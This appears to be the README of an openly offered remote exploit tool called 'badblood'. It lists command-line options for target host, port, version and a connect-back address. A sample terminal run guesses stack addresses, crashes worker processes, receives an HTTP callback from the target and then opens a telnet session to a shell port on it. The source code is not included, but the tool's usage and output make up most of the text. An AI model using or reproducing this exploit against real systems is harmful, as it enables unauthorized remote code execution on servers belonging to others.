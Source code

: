 ```
  --workers WORKERS     The number of workers to spew the exploit
  --nocrash             Stops the exploit from sending a series of crash payload to start
  --enable-stderr       Enable stderr for debugging
  --addr ADDR           Test only. If you know the crash address, go wild.
  --top-addr TOP_ADDR   Test only. If you know the stack's top address, go wild.

required arguments:
  --rhost RHOST         The IPv4 address to connect to
  --rport RPORT         The port to connect to
  --lhost LHOST         The address to connect back to
  --rversion RVERSION   The version of the remote target
  --rhostname RHOSTNAME
                        The hostname of the remote target target
```

### --addr vs. --top-addr vs. no option

There are three main modes of operation. The first is the exptected mode (address guessing). The second two are mostly for testing purposes.

#### I don't know any addresses!

This is the default state and no problem! We'll just guess a lot.

#### I know the address of the top of the stack!

Great! If you can cat maps or do some other magic:

```
bfa29000-bfa4a000 rw-p 00000000 00:00 0          [stack]
```

You can use the --top_addr parameter and reduce attack time down to a few seconds!

```
albinolobster@ubuntu:~/badblood$ date
Mon Jan 10 05:42:19 PM PST 2022
albinolobster@ubuntu:~/badblood$ python3 badblood.py --rhost 10.0.0.7 --lhost 10.0.0.3 --rversion 10.2.1.2-24sv --top-addr 3215237120

▄▄▄▄    ▄▄▄      ▓█████▄     ▄▄▄▄    ██▓     ▒█████   ▒█████  ▓█████▄     
▓█████▄ ▒████▄    ▒██▀ ██▌   ▓█████▄ ▓██▒    ▒██▒  ██▒▒██▒  ██▒▒██▀ ██▌  
▒██▒ ▄██▒██  ▀█▄  ░██   █▌   ▒██▒ ▄██▒██░    ▒██░  ██▒▒██░  ██▒░██   █▌
▒██░█▀  ░██▄▄▄▄██ ░▓█▄   ▌   ▒██░█▀  ▒██░    ▒██   ██░▒██   ██░░▓█▄   ▌ 
░▓█  ▀█▓ ▓█   ▓██▒░▒████▓    ░▓█  ▀█▓░██████▒░ ████▓▒░░ ████▓▒░░▒████▓ 
░▒▓███▀▒ ▒▒   ▓▒█░ ▒▒▓  ▒    ░▒▓███▀▒░ ▒░▓  ░░ ▒░▒░▒░ ░ ▒░▒░▒░  ▒▒▓  ▒ 
▒░▒   ░   ▒   ▒▒ ░ ░ ▒  ▒    ▒░▒   ░ ░ ░ ▒  ░  ░ ▒ ▒░   ░ ▒ ▒░  ░ ▒  ▒  
 ░    ░   ░   ▒    ░ ░  ░     ░    ░   ░ ░   ░ ░ ░ ▒  ░ ░ ░ ▒   ░ ░  ░  
 ░            ░  ░   ░        ░          ░  ░    ░ ░      ░ ░     ░     
      ░            ░               ░                            ░       

[+] Spinning up HTTP server
[+] User provided the top stack address: bfa4a000
[+] Generated 511 total addresses to search
[+] Filtering addresses for double visits (thanks awesome payload!)
[+] Filtered down to 243 total addresses to search
[+] Crashing all forks to reset stack to a semi-predicatable state
[+] Crashing complete. Good job. Let's go do work.
[+] Disabling stderr
[+] Spawning 4 workers
[+] Attempting to exploit the remote server. This might take quite some time. :eek:
[%] Addresses Tested: 33%
[*] Received an HTTP callback from 10.0.0.7 at 10/Jan/2022 17:42:34
[*] Now we got bad blood. Hey! 🦞
albinolobster@ubuntu:~/badblood$ telnet 10.0.0.7 1270
Trying 10.0.0.7...
```